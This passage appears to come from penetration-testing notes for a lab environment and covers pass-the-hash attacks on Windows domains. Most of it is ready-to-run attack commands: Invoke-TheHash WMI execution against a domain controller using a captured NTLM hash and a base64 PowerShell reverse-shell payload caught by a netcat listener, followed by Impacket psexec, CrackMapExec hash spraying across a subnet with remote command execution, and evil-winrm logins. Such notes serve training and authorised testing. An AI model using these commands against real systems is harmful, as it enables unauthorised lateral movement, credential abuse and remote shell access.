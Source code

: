     # alternatively, Invoke-TheHash with WMI
    Import-Module .\Invoke-TheHash.psd1

    # ensure listener is setup on victim Windows machine, not the attacker machine
    # this is because the target DC01 can only connect to victim Windows machine MS01
    .\nc.exe -nvlp 4445

    # to get the IP, we can run the command 'ipconfig' - the local IP has to be used while building the payload
    Invoke-WMIExec -Target DC01 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "<insert PS reverse-shell base64-encoded payload>"
    # payload can be found in revshells, PowerShell #3 (Base64)
    ```
  
  * PtH with Impacket in Linux:

    ```sh
    impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
    # we can also use other tools from Impacket for PtH
    # like impacket-wmiexec, impacket-atexec, impacket-smbexec
    ```
  
  * PtH with CrackMapExec in Linux:

    ```sh
    crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453
    # if we have local admin hash and want to check how many hosts can be accessed due to local admin password reuse
    # we can use the --local-auth flag

    # command execution
    crackmapexec smb 10.129.201.126 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami
    ```
  
  * PtH with evil-winrm in Linux:

    ```sh
    evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453
    # when using a domain account, we need to include domain name using @
    ```
  